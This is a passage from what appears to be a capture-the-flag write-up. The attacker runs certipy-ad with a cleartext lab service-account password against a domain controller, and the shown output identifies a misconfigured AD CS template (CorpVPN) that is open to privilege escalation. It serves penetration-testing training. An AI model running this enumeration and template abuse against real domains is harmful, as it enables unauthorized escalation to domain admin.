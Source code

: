 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

Since we previously noticed that `AD CS` was likely in use, let's try to use `certipy` to check for any vulnerable AD certificate templates.

`certipy-ad find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -stdout -vulnerable`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA ←
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN ←
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
```